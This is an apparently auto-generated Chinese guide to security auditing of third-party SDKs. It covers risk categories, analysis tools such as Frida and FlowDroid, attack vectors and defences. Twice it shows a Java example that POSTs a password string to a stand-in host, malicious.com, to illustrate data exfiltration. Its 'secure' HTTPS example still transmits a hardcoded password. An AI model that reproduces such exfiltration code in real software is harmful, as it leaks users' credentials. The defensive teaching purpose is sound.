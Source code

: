 # 第三方SDK安全审计

## 1. 概述

### 1.1 定义
第三方SDK（Software Development Kit）是指由外部开发者或组织提供的软件开发工具包，通常用于简化特定功能的集成。这些SDK广泛应用于移动应用、Web应用、桌面应用等，以快速实现诸如广告、支付、社交分享、数据分析等功能。然而，第三方SDK的引入也带来了潜在的安全风险，可能成为攻击者的突破口。

### 1.2 重要性
第三方SDK的安全审计至关重要，原因如下：
- **权限滥用**：SDK可能请求过多权限，导致用户数据泄露。
- **代码注入**：恶意SDK可能包含恶意代码，导致应用被攻击。
- **数据泄露**：SDK可能将敏感数据传输到不受信任的服务器。
- **供应链攻击**：SDK可能成为供应链攻击的载体，影响整个应用生态。

## 2. 第三方SDK的分类

### 2.1 按功能分类
- **广告SDK**：用于展示广告，如AdMob、Facebook Audience Network。
- **支付SDK**：用于处理支付，如支付宝、微信支付。
- **社交SDK**：用于社交分享，如Facebook SDK、Twitter SDK。
- **分析SDK**：用于用户行为分析，如Google Analytics、Firebase Analytics。

### 2.2 按平台分类
- **移动端SDK**：主要用于iOS和Android平台。
- **Web端SDK**：主要用于浏览器环境。
- **桌面端SDK**：主要用于Windows、macOS等桌面操作系统。

## 3. 第三方SDK的安全风险

### 3.1 权限滥用
SDK可能请求与应用功能无关的权限，如访问联系人、位置、相机等。这些权限可能被滥用来收集用户数据。

### 3.2 代码注入
恶意SDK可能包含恶意代码，如后门、间谍软件等，导致应用被攻击。

### 3.3 数据泄露
SDK可能将敏感数据传输到不受信任的服务器，导致用户数据泄露。

### 3.4 供应链攻击
SDK可能成为供应链攻击的载体，影响整个应用生态。例如，攻击者可能通过篡改SDK代码，将恶意代码注入到应用中。

## 4. 第三方SDK安全审计的技术细节

### 4.1 静态代码分析
静态代码分析是通过分析SDK的源代码或二进制代码，发现潜在的安全问题。常用的工具包括：
- **Checkmarx**：用于静态代码分析，发现代码中的安全漏洞。
- **SonarQube**：用于代码质量分析，发现潜在的安全问题。

```java
// 示例：静态代码分析发现敏感数据泄露
public void sendData() {
    String sensitiveData = "user_password";
    HttpURLConnection connection = (HttpURLConnection) new URL("http://malicious.com").openConnection();
    connection.setRequestMethod("POST");
    connection.setDoOutput(true);
    connection.getOutputStream().write(sensitiveData.getBytes());
}
```

### 4.2 动态行为分析
动态行为分析是通过运行SDK，观察其行为，发现潜在的安全问题。常用的工具包括：
- **Frida**：用于动态分析应用程序，发现潜在的安全问题。
- **Burp Suite**：用于分析网络流量，发现潜在的数据泄露。

```python
# 示例：使用Frida进行动态行为分析
import frida

def on_message(message, data):
    print(message)

session = frida.attach("target_app")
script = session.create_script("""
    Interceptor.attach(Module.findExportByName(null, "sendData"), {
        onEnter: function(args) {
            send("sendData called");
        }
    });
""")
script.on('message', on_message)
script.load()
```

### 4.3 权限分析
权限分析是通过分析SDK请求的权限，发现潜在的权限滥用问题。常用的工具包括：
- **Androguard**：用于分析Android应用的权限请求。
- **APKTool**：用于反编译Android应用，分析权限请求。

```xml
<!-- 示例：AndroidManifest.xml中的权限请求 -->
<uses-permission android:name="android.permission.READ_CONTACTS" />
<uses-permission android:name="android.permission.ACCESS_FINE_LOCATION" />
```

### 4.4 数据流分析
数据流分析是通过分析SDK的数据流，发现潜在的数据泄露问题。常用的工具包括：
- **FlowDroid**：用于分析Android应用的数据流。
- **TaintDroid**：用于分析Android应用的数据流，发现潜在的数据泄露。

```java
// 示例：数据流分析发现敏感数据泄露
public void sendData() {
    String sensitiveData = "user_password";
    HttpURLConnection connection = (HttpURLConnection) new URL("http://malicious.com").openConnection();
    connection.setRequestMethod("POST");
    connection.setDoOutput(true);
    connection.getOutputStream().write(sensitiveData.getBytes());
}
```

## 5. 攻击向量说明

### 5.1 恶意SDK
攻击者可能通过发布恶意SDK，将恶意代码注入到应用中。例如，攻击者可能通过篡改广告SDK，将恶意广告注入到应用中。

### 5.2 供应链攻击
攻击者可能通过篡改SDK代码，将恶意代码注入到应用中。例如，攻击者可能通过篡改支付SDK，将用户的支付信息发送到恶意服务器。

### 5.3 数据泄露
攻击者可能通过分析SDK的数据流，发现潜在的数据泄露问题。例如，攻击者可能通过分析社交SDK的数据流，发现用户的社交信息。

## 6. 防御思路和建议

### 6.1 选择可信的SDK
选择来自可信来源的SDK，避免使用未知或不受信任的SDK。

### 6.2 定期审计SDK
定期对SDK进行安全审计，发现潜在的安全问题。

### 6.3 最小权限原则
遵循最小权限原则，只请求与应用功能相关的权限。

### 6.4 数据加密
对敏感数据进行加密，防止数据泄露。

### 6.5 安全开发实践
遵循安全开发实践，避免引入安全漏洞。

```java
// 示例：使用HTTPS进行安全通信
public void sendData() {
    String sensitiveData = "user_password";
    HttpsURLConnection connection = (HttpsURLConnection) new URL("https://secure.com").openConnection();
    connection.setRequestMethod("POST");
    connection.setDoOutput(true);
    connection.getOutputStream().write(sensitiveData.getBytes());
}
```

## 7. 结论
第三方SDK的安全审计是确保应用安全的重要环节。通过静态代码分析、动态行为分析、权限分析和数据流分析等技术手段，可以发现潜在的安全问题。遵循最小权限原则、选择可信的SDK、定期审计SDK、数据加密和安全开发实践等防御思路，可以有效降低第三方SDK带来的安全风险。

---

*文档生成时间: 2025-03-14 15:47:48*
